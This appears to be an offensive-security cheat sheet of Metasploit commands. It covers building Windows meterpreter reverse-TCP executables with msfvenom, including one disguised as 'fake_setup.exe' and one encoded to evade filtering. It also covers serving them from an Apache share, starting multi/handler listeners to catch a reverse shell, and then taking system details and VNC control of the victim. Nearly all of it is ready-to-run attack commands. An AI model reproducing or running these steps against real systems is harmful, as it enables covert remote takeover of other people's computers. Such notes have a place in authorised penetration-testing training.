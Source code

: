 #### Payload setup&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe
LHOST=10.10.10.11 LPORT=444 -o /root/Desktop/Test.exe #-p payload, --platform platform of the target, -a architecture, -f output format, -o save the output path
mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and foldersinside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move the exploit
service apache2 start
```

#### Listener Setup

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
set LPORT 444
Run
```

#### Execute Exploit

* Open `http://10.10.10.11/share` on victim machine.
* Download Payload and run. Meterpreter shell is opened on attacker side. Type `sysinfo` to get system details.
* Type `run vnc` to start vnc viewer.

## Create a Reverse TCP Connection

```bash
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole
use exploit/multi/handler
set LHOST=<attacker-IP>
set LPORT=444
  run
```

## Privilege Escalation using MSFVenom and MSFConsole

#### Payload Setup

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe #-e encoder, -b list of bad characters to avoid
mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and folders inside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move to exploit
service apache2 start
```
